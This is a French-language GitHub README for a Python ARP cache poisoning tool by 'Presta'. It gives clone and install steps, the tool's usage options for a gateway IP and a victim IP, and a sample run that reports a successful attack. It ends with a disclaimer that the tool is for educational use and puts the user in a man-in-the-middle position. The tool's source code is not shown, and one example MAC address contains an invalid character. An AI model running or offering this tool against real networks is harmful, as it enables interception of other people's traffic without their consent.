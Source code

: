 # ARP-Cache-poisoning

- ![#1589F0](Code basique pour faire de l'arp cache poisoning ) `#1589F0

# Installation :
```
# Cloner :
git clone https://github.com/PrestaDZ/ARP-Cache-poisoning.git

# Change directory :
cd ARP-Cache-poisoning

# Requirements :
pip3 install -r requirements.txt
```

# Usage :

```

$ sudo python3 acp.py --help

 ________      ________      ________
|\   __  \    |\   ____\    |\   __  \
\ \  \|\  \   \ \  \___|    \ \  \_\  \
 \ \   __  \   \ \  \        \ \   ____|
  \ \  \ \  \ __\ \  \____  __\ \  \___|
   \ \__\ \__\\__\ \_______\\__\ \__\
    \|__|\|__\|__|\|_______\|__|\|__|
    --< Arp cache poisoning python tool
    --< by Presta

usage: python3 acp.py [-h] -s SWITCH_IP -i VICTIM_IP

optional arguments:
  -h, --help            show this help message and exit
  -s SWITCH_IP, --switch-ip SWITCH_IP
                        L'adresse IP de la passerelle.
  -i VICTIM_IP, --victim-ip VICTIM_IP
                        L'adresse IP de la victime.

```

# Exemple :

```
$ sudo python3 acp.py -s 192.168.0.254 -i 192.168.0.10

 ________      ________      ________
|\   __  \    |\   ____\    |\   __  \
\ \  \|\  \   \ \  \___|    \ \  \_\  \
 \ \   __  \   \ \  \        \ \   ____|
  \ \  \ \  \ __\ \  \____  __\ \  \___|
   \ \__\ \__\\__\ \_______\\__\ \__\
    \|__|\|__\|__|\|_______\|__|\|__|
    --< Arp cache poisoning python tool
    --< by Presta

Envoi de 2 paquets ICMP à 192.168.0.10...
------------
Sent : 2 , Received : 0
Packet lost         : 1.0

[!] L'hôte ne répond pas au packets ICMP.
Envoi de 2 paquets ICMP à 192.168.0.254 ...
------------
Sent : 2 , Received : 2
Packet lost         : 0.0


-------------------------------------------
[i] Victime    Ip / MAC  -> 192.168.0.10  : 32:1a:u9:d4:f7:23
[i] Passerelle Ip / MAC  -> 192.168.0.254 : fa:18:8b:a6:21:ce

[+] Lancement de l'attaque ...
[i] Taper controle + C pour quitter le programme.
[+] Attaque lancée avec succès

```

Ce code a pour but de vous mettre dans une position de MiTM entre la victime et la passerelle en corrompant le cache ARP, il a été écrit pour un usage informatif et éducatif et non pour un usage illégal, il est interdit par la loi et punissable de l'utilisé sur un réseau ne vous appartenant pas, et je me désolidarise de ces actes.
